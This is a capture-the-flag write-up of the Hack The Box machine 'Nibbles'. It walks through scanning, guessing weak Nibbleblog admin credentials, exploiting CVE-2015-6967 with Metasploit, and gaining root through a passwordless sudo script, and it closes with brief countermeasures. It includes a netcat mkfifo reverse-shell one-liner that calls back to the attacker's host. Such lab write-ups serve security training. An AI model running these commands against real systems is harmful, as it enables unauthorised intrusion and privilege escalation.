


# Nibbles


#### Machine Release Date: January 13, 2018

## Active Ports

```bash
sudo nmap -p22,80 -sC -sV -oA nmap/full-tcp-version 10.10.10.75
```

```none
Nmap scan report for 10.10.10.75
Host is up (0.033s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep  8 15:25:57 2020 -- 1 IP address (1 host up) scanned in 8.09 seconds
```

## Vulnerability Discovery

Investigating the HTML source code at `http://10.10.10.75` revealed the hidden `/nibbleblog/` path:


After navigating to the nibbles blog, I downloaded the `favicon.ico` image so that I could fingerprint when it was last created. This should give me an idea for how outdated the software is before seraching and trying publicly known exploits:

```none
$ wget http://10.10.10.75/nibbleblog/themes/simpler/css/img/favicon.ico
--2020-09-08 17:23:08--  http://10.10.10.75/nibbleblog/themes/simpler/css/img/favicon.ico
Connecting to 10.10.10.75:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1150 (1.1K) [image/vnd.microsoft.icon]
Saving to: ‘favicon.ico’

favicon.ico                                    100%[====================================================================================================>]   1.12K  --.-KB/s    in 0s

2020-09-08 17:23:08 (244 MB/s) - ‘favicon.ico’ saved [1150/1150]

kali@kali:~/htb/boxes/nibbles/web/images$ exiftool favicon.ico
ExifTool Version Number         : 12.04
File Name                       : favicon.ico
Directory                       : .
File Size                       : 1150 bytes
File Modification Date/Time     : 2013:11:01 14:24:00-04:00
File Access Date/Time           : 2020:09:08 17:23:08-04:00
File Inode Change Date/Time     : 2020:09:08 17:23:08-04:00
File Permissions                : rw-r--r--
Error                           : Unknown file type
```

As seen above, the `favicon.ico` file was last modified November 1, 2013 which was a long time before this box was released. Hence, most exploits developed after that date should affect that version. I searched the exploit database for known exploits written post November 1, 2013:


Since a metasploit module was publicly available for the `Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)` exploit, I loaded metasploit. However, at this point, I also realized that I needed the nibbleblog administrator's username and password to properly upload my webshell.

After navigating to `http://10.10.10.75/nibbleblog/admin.php`, I was presented with a login page which I was able to bypass by guessing the trivial credentials `admin:nibbles`:






## Exploitation (Weak Credential Guessing + CVE-2015-6967)

At this point, I loaded and properly configured the metasploit module:

```none
msf5 exploit(multi/http/nibbleblog_file_upload) > show options

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   nibbles          yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.75      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /nibbleblog/     yes       The base path to the web application
   USERNAME   admin            yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.24      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3


msf5 exploit(multi/http/nibbleblog_file_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.24:4444
[*] Sending stage (38288 bytes) to 10.10.10.75
[*] Meterpreter session 1 opened (10.10.14.24:4444 -> 10.10.10.75:39054) at 2020-09-08 16:58:15 -0400
[+] Deleted image.php

meterpreter > getuid
Server username: nibbler (1001)
```

At this point, I had a low-privileged shell within my meterpreter session. Since I'm not a fan of the meterpreter shells, I executed a netcat reverse shell that would connect back to my netcat listener on my kali machine:

```none
meterpreter > shell
Process 1702 created.
Channel 0 created.
which nc
/bin/nc
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 2001 >/tmp/f
```

```none
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.75.
Ncat: Connection from 10.10.10.75:39622.
/bin/sh: 0: can't access tty; job control turned off
$
```

At this point, I had a netcat reverse shell which I then upgraded to a [pseudo-pty](https://medium.com/bugbountywriteup/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2) with python3.

After that, I captured the `user.txt` file:

```none
nibbler@Nibbles:/home/nibbler$ cat user.txt
b02ff32bb332deba49eeaed21152c8d8
```

## Privilege Escalation (Arbitrary Sudo Without Password)

Checking the sudo permissions for the `nibbler` user revealed that I could execute `/home/nibbler/personal/stuff/monitor.sh` as the `root` user without providing a password:

```none
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User nibbler may run the following commands on Nibbles:
        (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Since I was the `nibbler` user, I had full access to create the `/home/nibbler/personal/stuff/monitor.sh` file and execute a root shell from there:

```none
nibbler@Nibbles:/home/nibbler$ mkdir -p /home/nibbler/personal/stuff/
nibbler@Nibbles:/home/nibbler$ echo '#!/bin/sh' > /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ echo 'bash' >> /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ chmod +x /home/nibbler/personal/stuff/monitor.sh
```

After creating `/home/nibbler/personal/stuff/monitor.sh` and making it executable, I was able to execute via sudo with root permissions to grant myself a root shell and capture the `root.txt` flag:

```none
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
root@Nibbles:/home/nibbler# id
uid=0(root) gid=0(root) groups=0(root)
root@Nibbles:/home/nibbler# find / -name root.txt
/root/root.txt
root@Nibbles:/home/nibbler# cat /root/root.txt
b6d745c0dfb6457c55591efc898ef88c
```

## Countermeasures

* Update the `nibbleblog` software to the latest version currently available. Disable it or uninstall it if no longer used.
* Prefer running services as a dedicated user. Keep sudo privileges restricted to other users on the system.
